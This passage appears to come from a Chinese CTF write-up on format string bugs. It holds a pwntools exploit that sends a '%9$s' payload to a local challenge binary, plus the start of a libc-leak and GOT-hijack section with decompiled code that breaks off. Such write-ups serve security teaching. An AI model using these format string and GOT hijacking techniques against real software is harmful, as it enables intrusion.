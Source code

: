 exp:

```bash
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

io=process('./pwn')
elf=ELF('./pwn')
io.recvuntil(b"flag")
payload="%9$s"
io.sendline(payload)
io.interactive()
```

[![](assets/1701612281-3cfa53227669b0c21619c855f5846ae6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223829-c33a66d6-2578-1.png)

#### fmstr3

##### libc 泄露&劫持 GOT

前期准备工作

[![](assets/1701612281-dce68457c17542b71cb7009ff5aa625b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223833-c59f9c70-2578-1.png)

IDA 静态分析一下

**main()**

```bash
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char s1; // [esp+14h] [ebp-2Ch]
  int v5; // [esp+3Ch] [ebp-4h]

  setbuf(stdout, 0);
  ask_username(&s1);
  ask_password(&s1);
  while ( 1 )
  {
    while ( 1 )
    {
      print_prompt();
      v3 = get_command();
      v5 = v3;
      if ( v3 != 2 )
```
